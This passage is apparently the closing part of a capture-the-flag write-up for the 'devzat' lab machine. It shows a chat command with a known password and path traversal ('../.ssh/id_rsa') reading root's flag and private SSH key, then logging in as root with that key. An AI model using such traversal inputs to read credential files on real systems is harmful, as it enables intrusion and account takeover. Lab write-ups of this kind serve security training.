 ### Getting `root`

Let's connect to the development version of `devzat` with `ssh -l william localhost -p 8443`:

```
william: /file
[SYSTEM] Please provide file to print and the password
william: /file /root/root.txt
[SYSTEM] You need to provide the correct password to use this function
william: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
william: /file ../root.txt CeilingCatStillAThingIn2021?
```

Running `/file ../root.txt CeilingCatStillAThingIn2021?` returns the root flag.

We can get `root`'s private key with `/file ../.ssh/id_rsa CeilingCatStillAThingIn2021?`. Now, we just paste that into a file, change the permissions with `chmod 600 devzat_root_key`, and ssh to the machine as root with `ssh -i devzat_root_key root@devzat.htb`. Finally, we have a root shell.
